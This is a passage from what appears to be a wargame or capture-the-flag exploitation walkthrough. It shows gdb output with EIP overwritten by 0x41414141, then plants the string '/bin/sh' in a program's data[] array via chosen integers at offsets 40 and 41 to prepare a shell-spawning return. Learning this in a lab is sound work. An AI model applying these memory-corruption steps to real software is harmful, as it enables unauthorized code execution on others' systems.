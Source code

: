 ```nasm
EAX: 0x0
EBX: 0xbffff508 --> 0x0
ECX: 0xfffffffe
EDX: 0xbffff4dc --> 0x8049bb7 (<dcgettext+55>:  add    esp,0x2c)
ESI: 0x0
EDI: 0xbffff698 ("store")
EBP: 0xbffff6c8 --> 0x8049990 (<__libc_csu_fini>:  push   ebx)
ESP: 0xbffff510 --> 0x0
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbffff510 --> 0x0
0004| 0xbffff514 --> 0x0
0008| 0xbffff518 --> 0x0
0012| 0xbffff51c --> 0x0
0016| 0xbffff520 --> 0x0
0020| 0xbffff524 --> 0x0
0024| 0xbffff528 --> 0x0
0028| 0xbffff52c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```

Great. Now, like in the previous level, we don't have any reference to `/bin/sh`, but we can create our own by storing the string somewhere in the `data[]` array and get its position on the stack:

- Store **1852400175** at offset *40* (`0x6e69622f` or "/bin")
- Store **6845231** at offset *41* (`0x0068732f` or "/sh")

Here, I placed a breakpoint on the `ret` instruction of *store_number()* and checked the content of the `data[]` array (`0xbffff508`).

```nasm
...[snip]...

Breakpoint 1, 0x08048f63 in store_number ()
gdb-peda$ x/128x 0xbffff508
0xbffff508: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff518: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff528: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff538: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff548: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff558: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff568: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff578: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff588: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff598: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff5a8: 0x6e69622f  0x0068732f  0x00000000  0x00000000
0xbffff5b8: 0x00000000  0x00000000  0x00000000  0x00000000

...[snip]...

gdb-peda$ x/s 0xbffff5a8
0xbffff5a8: "/bin/sh"
```
